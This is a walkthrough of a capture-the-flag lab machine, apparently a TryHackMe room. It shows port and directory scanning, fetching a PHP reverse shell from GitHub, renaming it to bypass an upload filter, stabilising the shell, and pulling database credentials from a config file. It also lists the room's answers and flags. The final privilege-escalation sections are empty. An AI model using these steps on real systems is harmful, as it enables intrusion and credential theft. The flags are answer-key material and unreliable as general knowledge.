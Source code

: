 ```yaml
---
description: Web
---
```


# The Trial Before Christmas

## Video

## Resources

## Challenges

### Scan the machine. What ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.243.219
```

![](../.gitbook/assets/image%20%28367%29.png)

{% hint style="success" %}
80, 65000
{% endhint %}

### What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

```text
gobuster dir -u http://10.10.243.219 -w /usr/share/dirb/wordlists/common.txt
```

![](../.gitbook/assets/image%20%28371%29.png)

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28361%29.png)

![](../.gitbook/assets/image%20%28359%29.png)

{% hint style="success" %}
Light Cycle
{% endhint %}

### What is the name of the hidden php page?

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28360%29.png)

{% hint style="success" %}
uploads.php
{% endhint %}

### What is the name of the hidden directory where file uploads are saved?

{% hint style="success" %}
grid
{% endhint %}

### Bypass the filters. Upload and execute a reverse shell. 

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

![](../.gitbook/assets/image%20%28365%29.png)

![](../.gitbook/assets/image%20%28368%29.png)

![](../.gitbook/assets/image%20%28366%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

### What is the value of the web.txt flag?



![](../.gitbook/assets/image%20%28364%29.png)

{% hint style="success" %}
THM{ENTER\_THE\_GRID}
{% endhint %}

### Upgrade and stabilize your shell.

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

{% hint style="success" %}
No answer needed
{% endhint %}

### Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? **username:password**

```text
cd /var/www/
cd TheGrid
cd includes
cat dbauth.php
```

![](../.gitbook/assets/image%20%28362%29.png)

{% hint style="success" %}
tron:IFightForTheUsers
{% endhint %}

### Access the database and discover the encrypted credentials. What is the name of the database you find these in?

```text
mysql -u tron -p
IFightForTheUsers
show databases;
use tron;

```

![](../.gitbook/assets/image%20%28363%29.png)

{% hint style="success" %}
tron
{% endhint %}

### Crack the password. What is it?

{% embed url="https://hashes.com/en/tools/hash\_identifier" %}

![](../.gitbook/assets/image%20%28369%29.png)

{% hint style="success" %}
@computer@
{% endhint %}

### Use su to login to the newly discovered user by exploiting password reuse.

![](../.gitbook/assets/image%20%28372%29.png)

{% hint style="success" %}
No naswer needed
{% endhint %}

### What is the value of the user.txt flag?

{% hint style="success" %}
THM{IDENTITY\_DISC\_RECOGNISED}
{% endhint %}

### Check the user's groups. Which group can be leveraged to escalate privileges?

###  

### Abuse this group to escalate privileges to root.



### What is the value of the root.txt flag?



